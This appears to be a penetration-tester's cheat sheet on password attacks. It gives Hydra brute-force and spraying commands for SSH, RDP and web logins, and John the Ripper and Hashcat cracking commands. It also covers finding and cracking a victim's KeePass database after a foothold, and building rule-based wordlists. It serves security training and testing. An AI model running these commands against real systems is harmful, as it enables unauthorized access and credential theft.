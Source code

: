 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Password attacks

## Online Brute force

### Hydra

Brute forcing `SSH`&#x20;

```bash
hydra -l <username> -P <password_wordlist> -s <ssh_port> ssh://<target>
```

Password spraying `RDP`

```bash
hydra -L <username_wordlist> -p <password> rdp://<target>
```

Brute forcing `website login form`

{% code overflow="wrap" %}
```bash
hydra -l <username> -P <wordlist> <target> http-post-form "/<login_page_route>:<username_paramter>=user&<password_paramter>=^PASS^:<failed_login_string>"
```
{% endcode %}

Brute forcing `basic authentication`

```bash
hydra -l <username> -P <wordlist> <target> http-get
```

## Offline Brute force

### John the ripper

Perform offline hash crack:

```bash
john --wordlist=<wordlist> <hashfile
>
```

### Hashcat

Find hash types:

```
hashcat --help | grep -i "KeePass"
```

Perform offline hash crack:

```
hashcat -m <hash_type> <hash> <wordlist>
```

## Password Manager

In case the foothold is achieved and the victims uses KeePass is possible to offline crack the master password.

Finding the database file on target machine:

```powershell
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```

Creating a crackable hash using `keepass2john` :

```
keepass2john Database.kdbx > keepass.hash
```

Cracking the hash using hashcat:

```bash
hashcat -m 13400 keepass.hash ~/wordlists/rockyou.txt
```

## Identify the hash

### Hash-Identifier

```
hash-identifier
```

<figure><img src="../.gitbook/assets/image (16).png" alt=""><figcaption><p>hash-identifier</p></figcaption></figure>

### Hashid

```
hashid <hash>
```

<figure><img src="../.gitbook/assets/image (15).png" alt=""><figcaption><p>hashid</p></figcaption></figure>

## Wordlists

Modify wordlists according to target password policy using `Hashcat` and a `rule` file:

{% code title="rulefile.rule" %}
```
rules examples:
$<string> - append the string.
^<string> - prepend the string.
c - capitalize the first character.

rules operations:
rule rule rule - the rules affects each word together.

the rules affects separately and creates more words (1 more word each rule):
rule
rule
```
{% endcode %}

More rule functions:

{% embed url="https://hashcat.net/wiki/?id=rule_based_attack#implemented_compatible_functions" %}
Rule Functions
{% endembed %}

There are commonly rule files in the `Hashcat` directory:

```bash
ls -la /usr/share/hashcat/rules/
```

Create and print the new rule based wordlist

```bash
hashcat -r <rulefile> --stdout <wordlist>
```

### Hashcat

Crack using the new rule based wordlist

```bash
hashcat -m <hash_type> <hash> <wordlist> -r <rulefile> 
```

### John

Create rule file for example:

```
[List.Rules:<rule_name>]
c $1 $3 $7 $!
c $1 $3 $7 $@
c $1 $3 $7 $#
```

Append the rule file into `/etc/john/john.conf`:

```bash
sudo bash -c 'cat <rulefile> >> /etc/john/john.conf'
```

Crack using the new rule based wordlist

```bash
john --wordlist=<wordlist> --rules=<rule_name> <hashfile>
```
